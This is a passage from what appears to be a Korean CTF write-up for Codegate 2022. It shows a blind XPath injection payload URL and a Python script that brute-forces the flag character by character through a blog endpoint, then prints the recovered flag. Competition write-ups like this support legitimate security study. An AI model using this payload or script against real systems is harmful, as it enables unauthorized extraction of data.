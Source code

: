 이를 통해 다음과 같이 실험을 했고 참/거짓 반응 차이를 통해 성공적으로 먹히는 것을 확인 할수 있었다.

```
http://3.39.79.180/blog/read?idx=1'+and+starts-with(system-property('flag'),'codegate2022%7b')+or+1='
```

그리고 아래 스크립트를 만들어 돌려서 최종 Flag를 획득했다.

```python
import requests

url = "http://3.39.79.180/blog/read"
dic = "abcdefghijklmnopqrstuvwxyz0123456789"
cookie = {
    'JSESSIONID': '32EF74FA3B3F0E61927AFED2F255B2BE'
}
flag = 'bcb'
for j in range(33):
    for i in dic:
        params = {"idx" : "1' and starts-with(system-property('flag'),'codegate2022{"+ str(flag) + str(i) +"') or 1='"}
        res = requests.get(url, params=params, cookies=cookie)
        if 'aaa' in res.text:
            flag += i
            # print(res.text)
            print(flag)
```

Flag ⇒ codegate2022{bcbbc8d6c8f7ea1924ee108f38cc000f}
